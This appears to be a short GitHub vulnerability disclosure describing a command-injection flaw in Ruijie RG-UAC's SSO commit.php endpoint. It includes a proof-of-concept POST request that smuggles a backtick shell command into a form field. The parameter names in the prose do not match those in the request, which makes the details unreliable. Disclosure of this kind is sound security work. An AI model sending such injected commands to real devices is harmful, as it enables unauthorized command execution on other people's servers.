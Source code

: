 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn

version:1.0

url:/view/userAuthentication/SSO/commit.php

Key codes marked
satisfaction variable
($_REQUEST['type']=='adsso_log_test')
At the same time,$_POST ['ad_log_name'] can be controlled and directly substituted into exec, resulting in rce vulnerability
<img width="592" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/5bc636bc-3031-494c-a01f-e3946239783c">
poc：
```
POST /view/userAuthentication/SSO/commit.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.7.1
Connection: close
Cookie: PHPSESSID=c545dcdb0474795f9e421b4ac6d46bc9
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

ad_name=`sleep${IFS}10`&type=adsso_test
```
<img width="602" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/9054613e-f17b-4d12-af8f-c70f97290464">
